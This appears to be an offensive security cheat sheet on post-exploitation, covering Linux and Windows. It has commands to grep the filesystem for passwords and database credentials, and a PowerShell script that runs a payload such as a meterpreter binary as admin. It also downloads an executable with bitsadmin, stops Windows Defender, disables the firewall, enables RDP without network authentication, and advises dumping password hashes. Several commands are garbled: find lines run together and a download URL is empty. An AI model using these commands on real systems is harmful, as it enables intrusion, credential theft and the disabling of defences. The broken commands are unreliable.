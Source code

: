 # **Post Exploitation**
Post-exploitation is a phase after an attacker has successfully breached a system. During this stage, the focus shifts from gaining initial access to maintaining control and further exploring the compromised environment. This involves activities such as privilege escalation, lateral movement within the network, data exfiltration, and establishing persistent access. Post-exploitation techniques aim to maximize the attacker's control over the compromised system and gather valuable information without raising suspicion.

```
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always
```

## **File Upload on linux systems via base64 encoding Converting a file to base64**

Once the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

```
cat fileWithBase64Content | base64 -d > finalBinary
```

You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

## **PSexec Shells of Remote Systems**

Eg: Get cmd.exe shell of remote system with user administrator and password

## **Powershell Sudo for Windows**

There maybe times when you know the creds to admin, but will have a low privileged shell. Unlike Linux, we cannot sudo on windows machines. So, I wrote a simple powershell script for that which can run a separate file as admin. You can run a batch file to add a new superuser or just execute a meterpreter binary as admin. The below command is to be run in a powershell window:

```
$pw = ConvertTo-SecureString "EnterPasswordHere" -AsPlainText -Force
$pp = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "EnterDomainName\EnterUserName", $pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-NoProfile -Command &{Start-Process $script -Verb RunAs}'
```

If however you want to run the powershell from a cmd prompt, you can run store the above command in a xyz.ps1 file and run it in cmd as below:

```
powershell -ExecutionPolicy Bypass -File xyz.ps1​
```

Download files in Windows with
```
bitsadmin bitsadmin /transfer mydownloadjob /download /priority normal http:///xyz.exe C:\Users\\%USERNAME%\AppData\local\temp\xyz.exe
```

Disable firewall/defender and enable RDP for all Sometimes you will have the admin creds and may require an RDP Session to find out what exactly is going on in the backend for post exploitation. Below commands will help you disable firewall and enable RDP over insecure connections

```
sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

Print files with the line number where the string is found grep -rnw '/' -ie 'password' --color=always

## **Find files with SUID permission**

```
find / -perm -4000 -type f 2>/dev/null
```

## **Find files with open permissions**

```
 find / -perm -777 -type f 2>/dev/null
```

## **Find files with SUID permission for current user**

```
find / perm /u=s -user `whoami` 2>/dev/nullfind / -user root -perm -4000 -print 2>/dev/null
```

## **Find files with writable permission for current user or current group**

```
find / perm /u=w -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -f -user `whoami` 2>/dev/nullfind / -perm /u+w -user `whoami` 2>/dev/nul
```

## **Find directories with writable permissions for current user or current group**

```
find / perm /u=w -type -d -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -d -user `whoami` 2>/dev/null
```

In order to move horizontally on the network we need to know as much about the machine as possible. We need to loot it. These are some things that must be done on every compromised machine.

### **Tcp dump**

Who else is connected to the machine?

### **Dump the hashes**

It is always good to have a list of all the hashes and crack them. Maybe someone is reusing the password.

### **To what is the machine connected?**

- netstat

- ipconfig

### **Email and personal files**

### **Logs**

​ ​
